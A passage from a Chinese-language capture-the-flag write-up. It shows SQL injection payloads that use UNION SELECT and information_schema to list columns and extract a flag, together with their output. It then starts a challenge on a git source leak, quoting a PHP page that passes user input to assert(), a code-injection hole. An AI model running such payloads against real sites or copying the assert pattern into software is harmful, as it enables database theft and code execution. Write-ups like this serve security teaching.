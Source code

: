 发现有意思的表

然后查字段

```
1' UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7365637265745F7461626C65 #
->
2
id,fl4g
```

拿flag

```
1' UNION SELECT 1,2,fl4g from secret_table #
->
2
QCTF{sq1_inJec7ion_ezzz}
```

## 0x07 mfw

翻About的时候看到用了git,应该是暗示git泄露了

然后Githacker一波搞到源码

有个flag.php flag应该是放在这里

看主要的index.php

```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$page', '..') === false") or die("Detected hacking attempt!");
//', '..') === false") or die("Detected hacking attempt!不执行
// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

>  assert ( [mixed](https://www.php.net/manual/zh/language.pseudo-types.php#language.types.mixed) `$assertion` [, string `$description` ] ) : bool 
>
> 如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。 assertion 是字符串的优势是当禁用断言时它的开销会更小，并且在断言失败时消息会包含 assertion 表达式。 这意味着如果你传入了 boolean 的条件作为 assertion，这个条件将不会显示为断言函数的参数；在调用你定义的 assert_options() 处理函数时，条件会转换为字符串，而布尔值 FALSE 会被转换成空字符串。
